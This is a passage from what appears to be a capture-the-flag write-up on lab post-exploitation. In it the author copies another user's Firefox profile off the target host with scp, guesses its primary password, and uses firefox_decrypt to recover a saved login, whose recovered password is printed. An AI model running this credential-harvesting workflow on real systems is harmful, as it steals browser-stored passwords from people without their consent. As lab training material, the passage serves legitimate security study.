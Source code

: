 We got another user called `carlJ`, let's check if we can visualize its home:

![Pasted image 20250424133944.png](../../IMAGES/Pasted%20image%2020250424133944.png)

We got a `.mozilla` folder, with this, we can use a tool called `firefox-decrypt`

![Pasted image 20250424134900.png](../../IMAGES/Pasted%20image%2020250424134900.png)

Let's clone it to our machine and do the following:

```bash
git clone https://github.com/unode/firefox_decrypt
scp -r tommy@IP:/home/carlJ/.mozilla/firefox .
```

![Pasted image 20250424135714.png](../../IMAGES/Pasted%20image%2020250424135714.png)

We get prompt with a password, we can try some basic password and notice the password for this is:

```
password1
```

```python
python3 firefox_decrypt.py ../firefox
Select the Mozilla profile you wish to decrypt
1 -> 45ir4czt.default
2 -> 0ryxwn4c.default-release
2

Primary Password for profile ../firefox/0ryxwn4c.default-release:

Website: https://incognito.com
Username: 'dev'
Password: 'Pas$w0RD59247'
```
